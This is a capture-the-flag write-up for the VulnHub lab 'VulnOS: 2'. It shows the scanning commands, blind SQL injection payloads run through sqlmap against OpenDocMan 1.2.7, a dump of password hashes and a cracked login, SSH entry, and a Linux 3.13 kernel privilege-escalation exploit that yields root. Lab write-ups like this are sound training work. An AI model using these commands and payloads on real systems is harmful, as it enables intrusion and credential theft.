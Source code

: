 # Information

- Name: VulnOS: 2
- Date release: 17 May 2016
- Author: c4b3rw0lf
- Series: VulnOS
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/vulnos-2,147/
- Difficulty: Easy

# Write Up

## Enum
### Host Dicovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools) with mode fast. In this lab, the ip of machine is _10.0.2.9_.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:27:dd:57 10.0.2.3
[*] 08:00:27:57:4f:aa 10.0.2.9
[*] 08:00:27:e1:f8:46 10.0.2.15
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. The tool _portScan_ send a TCP SYN packet, then evaluate the answer, if the flags of TCP are SYN/ACK the port is open. So, there are 3 ports open:

```Console
# python portScanner.py -i 10.0.2.9
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 6667 (unknown) open
```
Let see the version that are running with _nmap_:

```Console
# nmap -sV -p22,80,6667 10.0.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-31 18:06 UTC
Nmap scan report for 10.0.2.9 (10.0.2.9)
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.68 seconds
```

## Web

Port 80 is running a web where there is a message from the author:
![Web Message](images/web_author.png)

Redirect to 10.0.2.9/jabc/
![Web_JABC](images/index_jabc.png)

In the _documentation_ (http://10.0.2.9/jabc/?q=node/7) there is a message with black font that say a new directory /jabcd0cs/ and creds guest:guest.
![Message Docs](images/message_doc.png)

In /jabcd0cs/ there is a login panel provided by OpenDocMan v1.2.7.
![OpenDocMan Login](images/login_odm.png)

## Exploitation

This version is vulnerable to [SQLi](https://www.exploit-db.com/exploits/32075). The parameter add_value in _http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user_ is vulnerable, so we can try list the databse with sqlmap.
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level 4
sqlmap identified the following injection point(s) with a total of 2610 HTTP(s) requests:
---
Parameter: add_value (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=1&add_value=odm_user WHERE 8676=8676 AND 4873=4873-- dVmo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=1&add_value=odm_user WHERE 6317=6317 AND (SELECT 1756 FROM (SELECT(SLEEP(5)))lizz)-- SJpI
---
```

In addition, its possible dump the database. There is a table _odm_user_  that have the passwords hashed. 
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs --tables
Database: jabcd0cs
[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+

# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump
Database: jabcd0cs
Table: odm_user
[3 entries]
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| id | Email              | phone        | password                         | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212   | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |
| 2  | guest@example.com  | 555 5555555  | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |
| 3  | test@test.com      | 2121 2121211 | 71d941b4ed4d2cd3b9a20760125eacd1 | test2    | test      | 2          | test1      | NULL          |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+

```

With rockyou.txt and hashcat don't crack, so i searched a web crack md5 app. The web [md5online.org](https://www.md5online.org/md5-decrypt.html) give me the password. 

With user _webmin_ and password _webmin1980_, login ssh is succesful.

```Console
ssh webmin@10.0.2.9
The authenticity of host '10.0.2.9 (10.0.2.9)' can't be established.
ED25519 key fingerprint is SHA256:7FO0Y5C+W/hj0ShAjGy33uQvuMRPrSNk82jGy/wxnfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.9' (ED25519) to the list of known hosts.
webmin@10.0.2.9's password:
Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Aug 31 19:31:59 CEST 2022

  System load:  0.05              Processes:           89
  Usage of /:   6.3% of 29.91GB   Users logged in:     0
  Memory usage: 39%               IP address for eth0: 10.0.2.9
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Aug 31 19:31:59 2022 from 10.0.2.15
$ whoami
webmin
$ id
uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
$ uname -r
3.13.0-24-generic
$ python -c 'import pty; pty.spawn("/bin/bash")'
webmin@VulnOSv2:~$
webmin@VulnOSv2:~$ export TERM=xterm-256color
```
## Privilege Escalation

Linux 3.13 on Ubuntu is vulnerable to [privilege escalation](https://www.exploit-db.com/exploits/37292). 

```Console
webmin@VulnOSv2:/tmp$ gcc pe.c -o pe
webmin@VulnOSv2:/tmp$ ./pe
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
# cd /root
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```


